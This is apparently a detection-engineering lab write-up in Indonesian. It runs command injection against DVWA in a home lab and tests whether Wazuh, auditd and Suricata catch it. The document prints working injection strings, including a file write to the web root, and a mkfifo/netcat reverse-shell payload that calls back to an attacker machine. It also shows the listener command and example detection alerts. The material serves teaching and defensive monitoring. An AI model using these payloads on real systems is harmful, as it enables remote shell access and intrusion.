









# Command Injection — DVWA (Web-Server)

## Tujuan

Simulasi manual **Command Injection** ke modul **Command Injection** DVWA (`10.10.10.10`) dari Kali Linux, sekaligus validasi: apakah request **POST** (beda dari SQL Injection yang GET) tetep bisa dianalisa lewat `access.log` dan ke-detect Wazuh. Sesuai filosofi lab: deteksi dulu, bukan eksploitasi.

---

## Prerequisites

- DVWA sudah bisa diakses dari Kali — lihat [`dvwa-external-access.md`](../../../Infrastructure/dvwa-external-access.md)
- Wazuh Agent di Web-Server sudah running, sudah baca `/var/log/apache2/access.log` — lihat [`web-server-wazuh-agent.md`](../../../Infrastructure/web-server-wazuh-agent.md)
- DVWA **Security Level** di-set ke `Low`

---

## Step-by-Step

Modul **Command Injection** DVWA nerima input IP address, di-backend dijalanin lewat `shell_exec()`/`system()` buat nge-ping IP itu. Karena input user gak disanitasi, bisa disisipin command tambahan pakai separator `;`.

### 1. Command Chaining — Info Dasar Sistem

```
127.0.0.1; whoami
```
Output: `www-data`

```
127.0.0.1; id
```
Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

```
127.0.0.1; echo "Vuln"
```
Output: `Vuln`


### 2. Percobaan Tulis File

```
127.0.0.1; echo "Testing make some file" > /var/www/html/test.txt
```

Gak ada output di halaman (wajar — `echo` di-redirect ke file, bukan ke stdout). File berhasil ke-buat di web root, bisa diverifikasi langsung.



---

## Verifikasi

| Cek | Hasil |
|---|---|
| Command tereksekusi di server? | ✅ Ya — semua command (`whoami`, `id`, `echo`, file write) berhasil |
| Payload tercatat di `access.log`? | ❌ **Tidak** — cuma tercatat `POST /vulnerabilities/exec/ HTTP/1.1`, tanpa command yang dikirim |
| Ke-detect di Wazuh Dashboard? | ❌ **Tidak** — silent, gak ada alert sama sekali |

**Root cause:** modul ini pakai method **POST**, beda dari SQL Injection (GET) yang parameternya nampil di URL. Apache **Combined Log Format** (format default `access.log`) cuma nyatet method + path + status code — **isi body POST gak pernah ke-log**. Jadi bukan soal rule Wazuh kurang tajam (kayak gap SQLi kemarin), ini **blind spot infrastruktur**: bahan mentah buat dianalisa emang gak pernah nyampe ke SIEM sama sekali.

---

## Kesimpulan

1. **Command Injection berhasil dieksekusi penuh** — dari info dasar (`whoami`, `id`) sampai **arbitrary file write** ke web root, gak ada hambatan sama sekali di modul ini (beda sama percobaan `INTO OUTFILE` di lab SQLi yang kena block privilege).
2. **Blind spot kritis**: request POST secara struktural gak ninggalin jejak payload di `access.log` standar. Attacker bisa jalanin command apapun lewat form ini tanpa ninggalin bukti forensik di log Apache — jauh lebih berbahaya dibanding gap SQLi kemarin (yang setidaknya payload-nya masih kecatet, cuma rule-nya yang kurang).
3. Opsi nutup gap dari sisi **Web-Server/aplikasi** (`mod_dumpio`, ModSecurity buat log POST body) dipertimbangkan tapi **effort-nya berat** relatif ke manfaatnya untuk skala lab ini. Pendekatan yang dipilih: tambah **NIDS (Suricata/Snort) di pfSense** sebagai lapis deteksi network-wide yang independen dari limitasi logging tiap aplikasi — dibahas terpisah sebagai task infrastruktur.

---

## Reverse Shell

Lanjutan dari Command Injection di atas — coba upgrade dari command execution biasa ke **reverse shell** interaktif, tetep lewat modul Command Injection DVWA yang sama. Netcat versi minimal (Debian-based) biasanya gak support flag `-e`, jadi pakai teknik **named pipe (mkfifo)** buat nyambungin `/bin/sh` ke koneksi netcat.

### Step-by-Step

**1. Cek IP Kali** (buat target reverse shell)


**2. Siapin listener di Kali** — IP Kali dan port (`4444`) udah ditentuin di awal

```bash
nc -lvnp 4444
```



**3. Eksekusi listener**



**4. Siapin payload** — pakai teknik mkfifo karena `nc -e` gak available:

```
127.0.0.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <KALI_IP> 4444 >/tmp/f
```



**5. Run payload di form Command Injection DVWA**, cek terminal Kali — langsung masuk ke shell Web-Server.

```
127.0.0.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <KALI_IP> 4444 >/tmp/f
```

Verifikasi dari dalam shell baru:

| Command | Output |
|---|---|
| `whoami` | `www-data` |
| `id` | `uid=33(www-data) gid=33(www-data) groups=33(www-data)` |
| `ls` | (isi direktori web root) |

Hasilnya sama dengan user context di percobaan Command Injection sebelumnya — konsisten `www-data`.



**6. Refresh Wazuh Dashboard** — dicek apakah ada alert buat reverse shell ini.



**7. Cek proses di Web-Server pakai `htop`** — process payload (`sh -i`, `nc`) keliatan jalan, tapi tetep gak ada yang ke-send jadi alert/log.



### Hasil

| Cek | Hasil |
|---|---|
| Shell interaktif connect balik ke Kali? | ✅ Ya — via named pipe (`mkfifo`) + `nc` |
| User context konsisten sama command injection biasa? | ✅ Ya — `www-data` (uid=33) |
| Ke-detect di Wazuh Dashboard? | ❌ **Tidak** — refresh dashboard gak nunjukin alert apapun |
| Proses kelihatan di server (`htop`)? | ✅ Ya, proses `sh`/`nc` jalan — tapi **gak dikirim jadi log/alert ke Wazuh** |

### Kesimpulan

Reverse shell berhasil didapet lewat command injection yang sama, dengan **blind spot yang lebih dalam** dibanding temuan POST body sebelumnya: bukan cuma payload-nya yang gak kecatet di `access.log`, tapi **eksistensi proses & koneksi network reverse shell itu sendiri juga sama sekali gak masuk radar Wazuh** — walaupun secara visual keliatan jelas di `htop` kalau ada proses asing yang jalan. Root cause-nya bukan soal command injection-nya, tapi soal **data source yang dipantau Wazuh Agent belum mencakup process execution & koneksi network**.

Payload reverse shell ini juga masuk kategori **LOLBin (Living-off-the-Land Binary)** — cuma manfaatin binary legit yang udah ada di sistem (`sh`, `nc`, `mkfifo`), gak drop malware/file baru yang persisten. Ini jenis serangan yang emang didesain buat ngehindarin deteksi berbasis file/log, dan di lab ini terbukti berhasil ngehindar dari Wazuh yang setup-nya sekarang murni log-based + FIM (File Integrity Monitoring).

---

## Kesimpulan Akhir — SQL Injection vs Command Injection

Dua lab web attack yang udah dijalanin (SQLi dan Command Injection) sama-sama nge-expose kelemahan yang berbeda dari SIEM yang sekarang, tergantung *method* HTTP yang dipakai:

| Aspek | SQL Injection (GET) | Command Injection (POST) |
|---|---|---|
| Payload masuk `access.log`? | ✅ Ya — parameter GET nampil di URL, kecatet lengkap | ❌ Tidak — body POST gak pernah kecatet di Combined Log Format |
| Bahan mentah buat dianalisa SIEM? | Ada | **Gak pernah nyampe** |
| Masalah utama | Rule Wazuh (`31106`) gak nge-cover fase **recon** (`'`, `ORDER BY`) — cuma severity gak proporsional, bukan blind spot total | **Blind spot infrastruktur total** — bukan soal rule kurang tajam, tapi data-nya emang gak pernah masuk ke SIEM |
| Reverse shell / LOLBin (`sh`, `nc`, `mkfifo`) | — | ❌ Gak ke-detect sama sekali, walaupun proses keliatan jelas di `htop` |
| Kebutuhan mitigasi | Custom Wazuh rule tambahan buat cover fase recon | **NIDS** (nutup blind spot network-level, independen dari log aplikasi) + **auditd** (nutup blind spot process execution/LOLBin, independen dari `access.log`) |

**Final takeaway:** SQLi ngajarin bahwa *"data-nya ada tapi rule-nya kurang"*, sedangkan Command Injection ngajarin sesuatu yang lebih fundamental — *"data-nya emang gak pernah ada"*. Selama SIEM cuma ngandelin `access.log` (log aplikasi berbasis method GET) tanpa **auditd** (visibility ke process execution) dan **NIDS** (visibility ke network traffic independen dari aplikasi), serangan lewat form POST — apalagi yang eskalasi jadi reverse shell pakai LOLBin — akan selalu jadi blind spot total, gak peduli seketat apapun rule yang dibikin di Wazuh. Ini jadi keputusan akhir arah Detection Engineering lab: prioritas berikutnya bukan nambah rule lagi, tapi nambah **data source** (auditd + NIDS) biar Wazuh punya sesuatu buat dianalisa di kasus-kasus kayak gini.

---

## Verifikasi Remediasi — Blind Spot Sekarang Ketutup

Setelah **auditd** ([`web-server-auditd-setup.md`](../../../Infrastructure/web-server-auditd-setup.md)) dan **Suricata NIDS** ([`pfsense-suricata-setup.md`](../../../Infrastructure/pfsense-suricata-setup.md)) selesai diimplementasi sesuai keputusan di atas, skenario command injection yang sama di-replay buat mastiin blind spot yang ditemuin di awal lab ini beneran udah ketutup.

**1. Input command injection** (`;id`) lewat form DVWA:



**2. Cek log di Wazuh Dashboard** — dua alert independen muncul buat satu request yang sama:



### Alert #1 — auditd (endpoint, process execution layer)

```json
{
  "rule": { "id": "100300", "level": 12, "description": "LOLBin: www-data (Apache) menjalankan proses baru \"id\" - indikasi command injection" },
  "data": { "audit": { "command": "id", "uid": "33", "ppid": "3507", "pid": "3509", "key": "www_data_exec", "cwd": "/var/www/html/vulnerabilities/exec" } }
}
```

Log ini nunjukin **rantai proses lengkap** yang terjadi di balik layar satu request command injection: form DVWA aslinya didesain buat nge-*ping*, jadi command yang di-inject (`id`) numpang jalan lewat proses `sh` yang sama yang manggil `ping`. Urutannya: `sh` (PID `3507`) jadi parent process, yang kemudian nge-spawn `ping` dan `id` sebagai **child process** — kebukti dari `ppid` (parent PID) keduanya sama-sama nunjuk ke `3507`. Proses `id` inilah yang akhirnya ke-tag `key="www_data_exec"` dan nge-trigger rule `100300` (level 12), lengkap dengan MITRE ATT&CK `T1059` (*Command and Scripting Interpreter*).

Rule yang kepake di layer ini ada di dua tempat (beda layer, collection vs detection — lihat pembahasan konsepnya di [`web-server-auditd-setup.md`](../../../Infrastructure/web-server-auditd-setup.md)):
- [`Detection-Engineer/auditd-trigger-rule/audit.rules`](../../../Detection-Engineer/auditd-trigger-rule/audit.rules) — audit rule di kernel level yang nentuin data apa yang direkam (`execve` dari `uid=33`/www-data)
- [`Detection-Engineer/wazuh-rules/auditd_lolbin_rules.xml`](../../../Detection-Engineer/wazuh-rules/auditd_lolbin_rules.xml) — Wazuh rule `100300` yang mutusin data itu suspicious dan nge-generate alert

### Alert #2 — Suricata (network, perimeter layer)

```json
{
  "rule": { "id": "100400", "level": 3, "description": "Suricata NIDS: SID 1:1000003:1 [TCP] 192.168.43.111:58450 -> 10.10.10.10:80" },
  "data": { "suricata": { "message": "Detect Command Injection separators in POST Body", "classification": "Web Application Attack", "sid": "1:1000003:1" }, "srcip": "192.168.43.111", "dstip": "10.10.10.10" }
}
```

Alert ini datang dari custom rule Suricata (`SID 1000003`) yang dibangun buat lab ini — nangkep separator command injection (`;`, `|`, dst, termasuk versi URL-encoded-nya) di **POST body**, sebelum request-nya sempet nyampe ke aplikasi. Suricata jalan sebagai **NIDS** di pfSense, posisinya di jalur network paling depan — tiap request dari client (`192.168.43.111`, Kali) ke Web-Server (`10.10.10.10:80`) **wajib lewat Suricata dulu** sebelum sampe ke Apache/DVWA. Karena mode-nya sekarang **IDS** (bukan IPS), Suricata cuma nge-alert ke SIEM, gak nge-block traffic-nya — tapi arsitektur yang sama ini bisa di-upgrade ke mode **IPS** kapan aja buat langsung drop request yang match rule, kalau ke depannya mau eskalasi dari deteksi ke pencegahan aktif.

Sama kayak auditd, rule-nya juga kesebar di beberapa layer (lihat pembahasan lengkap di [`pfsense-suricata-setup.md`](../../../Infrastructure/pfsense-suricata-setup.md)):
- [`Detection-Engineer/suricata-trigger-rule/custom.rules`](../../../Detection-Engineer/suricata-trigger-rule/custom.rules) — rule Suricata (`SID 1000001` & `1000003`) yang jalan langsung di pfSense, nentuin traffic mana yang di-flag
- [`Detection-Engineer/wazuh-rules/suricata-decoder.xml`](../../../Detection-Engineer/wazuh-rules/suricata-decoder.xml) — decoder Wazuh buat parse raw alert Suricata jadi field terstruktur
- [`Detection-Engineer/wazuh-rules/suricata-rules.xml`](../../../Detection-Engineer/wazuh-rules/suricata-rules.xml) — Wazuh rule `100400`/`100401` yang mutusin alert Suricata itu masuk Dashboard

### Perbandingan: Sebelum vs Sesudah

| Cek | Sebelum (lab awal) | Sesudah (remediasi) |
|---|---|---|
| Payload command injection ke-log di `access.log`? | ❌ Tidak (POST body blind spot) | ❌ Tetap tidak (limitasi struktural, gak berubah) |
| Process execution (`sh`→`ping`/`id`) ke-detect? | ❌ Tidak sama sekali, walau keliatan di `htop` | ✅ Ya — auditd rule `100300`, level 12 |
| Traffic command injection ke-detect di layer network? | ❌ Tidak ada NIDS sama sekali | ✅ Ya — Suricata rule `100400`/SID `1000003`, level 3 |
| Reverse shell LOLBin ke-detect? | ❌ Tidak (LOLBin, gak ninggalin jejak file/log) | ✅ Ya — dua layer sekaligus (auditd nangkep proses `sh`/`nc`, Suricata custom rule nangkep pattern separator + output `id`) |

**Kesimpulan:** Blind spot yang ditemuin di awal lab ini — command injection lewat POST body yang gak ninggalin jejak di `access.log`, termasuk eskalasi ke reverse shell LOLBin — **sekarang ketutup lewat dua layer deteksi independen** yang gak bergantung ke log aplikasi sama sekali: **auditd** di endpoint (nangkep proses yang dieksekusi) dan **Suricata NIDS** di network (nangkep pattern serangan di traffic). Ini ngebuktiin keputusan Detection Engineering di section sebelumnya — nambah *data source* baru jauh lebih efektif dibanding nambah rule di atas data source yang emang dari awal gak pernah punya bahan buat dianalisa.
